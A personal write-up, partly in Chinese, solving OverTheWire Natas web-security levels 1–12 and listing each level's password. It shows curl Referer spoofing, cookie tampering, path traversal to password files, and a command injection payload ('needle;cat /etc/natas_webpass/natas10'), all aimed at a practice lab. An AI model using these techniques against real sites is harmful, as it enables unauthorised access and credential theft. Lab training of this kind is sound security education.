




//Description:

//Create Date: 2020-02-24 10:53:23

//Author: channy

# overthewire_wargames_notes_natas

[address](https://overthewire.org/wargames/natas/)

## 1. <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->



## 2. <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->


## 3.

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```


## 4. robots协议也叫robots.txt（统一小写）是一种存放于网站根目录下的ASCII编码的文本文件，它通常告诉网络搜索引擎的漫游器（又称网络蜘蛛），此网站中的哪些内容是不应被搜索引擎的漫游器获取的，哪些是可以被漫游器获取的。

访问目录下的robots.txt,得目录/s3cr3t/,访问该目录，得users.txt

```
//robots.txt
User-agent: *
Disallow: /s3cr3t/

//users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## 5. 

```
C:\Users\channy>curl -isu natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ natas4.natas.labs.overthewire.org --referer "http://natas5.natas.labs.overthewire.org/"
HTTP/1.1 200 OK
Date: Wed, 26 Feb 2020 11:54:41 GMT
Server: Apache/2.4.10 (Debian)
Vary: Accept-Encoding
Content-Length: 962
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```



## 6. cookies有个logined值为0，改成1即可。

chrome可用扩展Editthiscookie

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
``` 

或者用
```
curl -isu natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq natas5.natas.labs.overthewire.org --cookie "loggedin=1"
```




## 7. 头文件

View sourcecode
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```
//http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## 8. http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```



## 9. 

source code

```
...
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

可用在线工具直接运行php
```php
<?php
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")))
?>

得secret: oubWYf2kBq

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## 10. 

source code
```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

注入

> needle;cat /etc/natas_webpass/natas10

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
...
```

## 11.

source code
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

grep正则查找

> [a-zA-Z] /etc/natas_webpass/natas11

```
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

## 12. 

source code

```
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);


?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>
```

## 13.

[back](/)

